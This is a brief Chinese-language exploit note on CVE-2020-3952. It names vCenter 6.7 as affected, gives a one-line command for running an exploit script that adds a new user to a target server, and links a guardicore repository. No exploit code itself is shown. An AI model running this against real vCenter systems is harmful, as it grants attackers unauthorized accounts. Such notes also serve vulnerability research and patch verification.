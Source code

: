 # CVE-2020-3952 导致的vCenter 6.7 添加用户

影响版本：  
- vCenter 6.7


exp：
```
python3 exploit.py <VCENTER_IP> <NEW_USERNAME> <NEW_PASSWORD>
```

[@guardicore](https://github.com/guardicore/vmware_vcenter_cve_2020_3952)